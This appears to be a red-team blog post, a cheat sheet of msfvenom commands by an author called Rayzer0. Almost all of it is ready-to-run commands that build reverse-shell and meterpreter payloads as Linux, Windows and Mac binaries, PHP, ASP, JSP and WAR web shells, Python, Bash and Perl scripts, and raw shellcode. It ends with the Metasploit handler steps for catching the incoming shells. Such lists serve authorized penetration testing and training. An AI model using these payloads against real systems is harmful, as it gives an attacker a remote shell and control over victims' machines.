 ```yaml
---
layout: post
title: MSFVenom-Payloads Cheat sheet
author: Rayzer0
category: Red Team
date: 2019-7-16
---
```

# List payloads
```ruby
msfvenom -l
```
# Binaries
## Linux

```ruby
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
## Windows

```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
## Mac

```ruby
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

# Web Payloads
## PHP

```ruby
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ASP

```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## JSP

```ruby
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
## WAR

```ruby
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
# Scripting Payloads
## Python

```ruby
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
## Bash

```ruby
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
## Perl

```ruby
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
# Shellcode
>For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

## Linux Based Shellcode

```ruby
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Windows Based Shellcode

```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode

```ruby
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

1. use exploit/multi/handler
2. set PAYLOAD <Payload name>
3. set LHOST <LHOST value>
4. set LPORT <LPORT value>
